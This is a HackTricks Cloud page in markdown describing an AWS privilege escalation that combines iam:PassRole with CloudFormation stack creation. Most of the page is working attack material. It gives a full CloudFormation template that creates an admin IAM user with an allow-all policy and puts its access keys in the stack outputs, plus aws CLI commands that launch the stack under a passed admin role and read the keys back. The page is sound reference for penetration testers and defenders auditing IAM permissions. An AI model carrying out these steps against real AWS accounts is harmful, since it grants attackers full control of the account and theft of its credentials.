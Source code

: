 # iam:PassRole, cloudformation:CreateStack,and cloudformation:DescribeStacks

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

An attacker could for example use a **cloudformation template** that generates **keys for an admin** user like:

```json
{
     "Resources": {
         "AdminUser": {
             "Type": "AWS::IAM::User"
         },
         "AdminPolicy": {
             "Type": "AWS::IAM::ManagedPolicy",
                 "Properties": {
                 "Description" : "This policy allows all actions on all resources.",
                 "PolicyDocument": {
                     "Version": "2012-10-17",
                     "Statement": [
                     {
                         "Effect": "Allow",
                         "Action": [
                         "*"
                         ],
                         "Resource": "*"
                     }]
                 },
                 "Users": [{
                     "Ref": "AdminUser"
                 }]
             }
         },
         "MyUserKeys": {
             "Type": "AWS::IAM::AccessKey",
             "Properties": {
                 "UserName": {
                     "Ref": "AdminUser"
                 }
             }
         }
       },
     "Outputs": {
         "AccessKey": {
             "Value": {
                 "Ref": "MyUserKeys"
             },
             "Description": "Access Key ID of Admin User"
         },
         "SecretKey": {
             "Value": {
                 "Fn::GetAtt": [
                 "MyUserKeys",
                 "SecretAccessKey"
                 ]
             },
             "Description": "Secret Key of Admin User"
         }
     }
}
```

Then **generate the cloudformation stack**:

```bash
aws cloudformation create-stack --stack-name privesc \
    --template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
    --role arn:aws:iam::[REDACTED]:role/adminaccess \
    --capabilities CAPABILITY_IAM --region us-west-2
```

**Wait for a couple of minutes** for the stack to be generated and then **get the output** of the stack where the **credentials are stored**:

```bash
aws cloudformation describe-stacks \
    --stack-name arn:aws:cloudformation:us-west2:[REDACTED]:stack/privesc/b4026300-d3fe-11e9-b3b5-06fe8be0ff5e \
    --region uswest-2
```

### References

* [https://bishopfox.com/blog/privilege-escalation-in-aws](https://bishopfox.com/blog/privilege-escalation-in-aws)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
